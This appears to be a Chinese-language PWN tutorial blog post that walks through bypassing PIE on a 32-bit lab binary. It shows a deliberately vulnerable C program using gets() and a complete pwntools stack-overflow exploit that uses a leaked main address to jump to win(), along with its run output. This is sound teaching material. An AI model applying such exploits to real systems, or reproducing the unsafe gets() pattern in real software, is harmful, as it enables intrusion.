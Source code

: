 ```yaml
---
title: 利用已泄漏信息绕过 PIE
subtitle:
date: 2023-08-22T10:43:04+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


利用已泄漏信息绕过 PIE

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/pie-32.zip" content="pie-32.zip" title="Download pie-32.zip" download="pie-32.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

int main() {
  vuln();

  return 0;
}

void vuln() {
  char buffer[20];

  printf("Main Function is at: %lx\n", main);

  gets(buffer);
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

程序输出 `main` 的地址，我们可以通过它来计算出基地址。然后我们可以利用这个基地址
计算出 `win()` 的地址。

## 0x02 分析

让我们运行该脚本以确保它是正确的 :D

```
$ ./vuln-32
Main Function is at: 0x5655f1b9
```

正如我们所期望的，它打印了 `main` 的地址。

## 0x03 利用

首先，让我们设置脚本。创建一个 `ELF` 对象（稍后会变得非常有用），然后启动该进程。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

现在我们要获取 `main` 函数的地址。为此，我们可以简单地接收它，然后读取。

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

{{<admonition type="info">}}

由于我们接收了除地址之外的整行，因此只有地址才会出现在 `p.recvline()` 中。

{{</admonition>}}

现在我们将使用之前创建的 `ELF` 对象并设置它的基地址。`sym` 存储的是函数的相对偏移量，
我们只要用绝对地址减去相对偏移就可以得到基地址。

*设置基地址前 `sym` 字典中存储的是各函数的相对偏移量；设置基地址之后，`sym` 会变为存储
各函数的绝对地址。*

```python
elf.address = main - elf.sym['main']
```

在这个例子中，`elf.sym['main']` 将返回 `0x11b9` ；如果我们设置基地址后再次运行它，
它将返回 `0x11b9 + 基地址` 的值。本质上，我们是从泄漏的地址中减去 `main` 的偏移量，
以获得二进制文件的基地址。

现在我们有了可以调用 `win()` 的基本信息。我们可以调用 `win()` 了：

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

{{<admonition type="info">}}

我假设你知道如何找到溢出 Padding 以及其他内容，因此我不会向你展示其中的每一步
具体该怎么做，希望你能通过自己的能力解决它们。

如果你不知道该怎么办，请先去看我之前写的文章，好好思考每一步为什么这样做，相信会有所帮助。

{{</admonition>}}

```
$ python exp.py
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 147342
PIE bypassed! Great job :D
```

## 0x04 最终 Exploit

```python {title="exp.py"}
from pwn import *

# context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

## 0x05 总结

通过泄漏的 `main` 地址，我们能够计算出二进制文件的基地址。由此我们可以计算出 `win`
的地址并调用它。

## 0x06 64-bit

自己尝试一下 64-bit 的版本该怎么绕过。

{{< link href="/pwn_assets/pie-64.zip" content="pie-64.zip" title="Download pie-64.zip" download="pie-64.zip" card=true >}}

